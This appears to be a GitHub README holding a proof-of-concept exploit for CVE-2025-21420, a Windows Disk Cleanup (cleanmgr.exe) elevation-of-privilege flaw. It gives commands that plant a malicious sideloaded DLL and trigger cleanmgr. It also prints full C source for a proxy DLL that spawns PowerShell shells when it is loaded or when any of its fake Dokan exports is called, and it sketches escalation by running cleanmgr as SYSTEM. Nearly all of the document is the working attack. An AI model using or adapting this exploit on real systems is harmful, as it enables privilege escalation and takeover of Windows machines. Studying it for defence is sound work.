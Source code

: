 # CVE-2025-21420 PoC
- https://nvd.nist.gov/vuln/detail/CVE-2025-21420 (
Windows Disk Cleanup Tool Elevation of Privilege Vulnerability)
  
We found a way to DLL sideload with cleanmgr.exe

```powershell
$ cp .\dokan1.dll C:\Users\<username>\System32\System32\System32\dokannp1.dll
$ cleanmgr /sageset:2
```
Just use regular `DLL Sideloading` and it will rain shellz. We have not yet tested, if it's sufficient to have the second dll name only, or if the first, slightly different one, is also used. 

Currently still working on the **PrivEsc** part, but it's very likely just scheduling `cleanmgr.exe` for `NT-Authority\System` or waiting till it's triggered by the system, e.g. by **Filling a Disk** or creating too many temp files. 

Warning: The following is still `Research Level` (meaning, total crap code), it will pop hundreds of Message Boxes and shells. 
```c
#include <stdio.h>
#include "pch.h"
#include <stdlib.h>
#include <windows.h>


__declspec(dllexport) void DokanDebugMode();
__declspec(dllexport) void DokanDriverVersion();
__declspec(dllexport) void DokanGetMountPointList();
__declspec(dllexport) void DokanIsNameInExpression();
__declspec(dllexport) void DokanMain();
__declspec(dllexport) void DokanMapKernelToUserCreateFileFlags();
__declspec(dllexport) void DokanNetworkProviderInstall();
__declspec(dllexport) void DokanNetworkProviderUninstall();
__declspec(dllexport) void DokanNotifyCreate();
__declspec(dllexport) void DokanNotifyDelete();
__declspec(dllexport) void DokanNotifyRename();
__declspec(dllexport) void DokanNotifyUpdate();
__declspec(dllexport) void DokanNotifyXAttrUpdate();
__declspec(dllexport) void DokanNtStatusFromWin32();
__declspec(dllexport) void DokanOpenRequestorToken();
__declspec(dllexport) void DokanReleaseMountPointList();
__declspec(dllexport) void DokanRemoveMountPoint();
__declspec(dllexport) void DokanResetTimeout();
__declspec(dllexport) void DokanServiceDelete();
__declspec(dllexport) void DokanServiceInstall();
__declspec(dllexport) void DokanSetDebugMode();
__declspec(dllexport) void DokanUnmount();
__declspec(dllexport) void DokanUseStdErr();
__declspec(dllexport) void DokanVersion();

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved)
{
    
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
    default:
        DokanMain();
        break;
    }
    return TRUE;
}

void DokanMain() {
    MessageBoxW(NULL, L"Hello World2", L"DLL Message", MB_OK);
    system("powershell.exe");
    HANDLE hThread = NULL;

    // Declare cmdLine outside the switch
    wchar_t cmdLine[] = L"powershell.exe"; // Declare a writable wide-character string
    STARTUPINFOW si = { 0 };
    PROCESS_INFORMATION pi = { 0 };

    si.cb = sizeof(si);

    // Start thread to run calc() function
    hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)DokanDebugMode, NULL, 0, NULL);
    return;
}

void DokanDebugMode() {  DokanMain(); return;};
void DokanDriverVersion() {  DokanMain(); return;};
void DokanGetMountPointList() {  DokanMain(); return;};
void DokanIsNameInExpression() {  DokanMain(); return;};
void DokanMapKernelToUserCreateFileFlags() {  DokanMain(); return;};
void DokanNetworkProviderInstall() {  DokanMain(); return;};
void DokanNetworkProviderUninstall() {  DokanMain(); return;};
void DokanNotifyCreate() {  DokanMain(); return;};
void DokanNotifyDelete() {  DokanMain(); return;};
void DokanNotifyRename() {  DokanMain(); return;};
void DokanNotifyUpdate() {  DokanMain(); return;};
void DokanNotifyXAttrUpdate() {  DokanMain(); return;};
void DokanNtStatusFromWin32() {  DokanMain(); return;};
void DokanOpenRequestorToken() {  DokanMain(); return;};
void DokanReleaseMountPointList() {  DokanMain(); return;};
void DokanRemoveMountPoint() {  DokanMain(); return;};
void DokanResetTimeout() {  DokanMain(); return;};
void DokanServiceDelete() {  DokanMain(); return;};
void DokanServiceInstall() {  DokanMain(); return;};
void DokanSetDebugMode() {  DokanMain(); return;};
void DokanUnmount() {  DokanMain(); return;};
void DokanUseStdErr() {  DokanMain(); return;};
void DokanVersion() {  DokanMain(); return;};
```
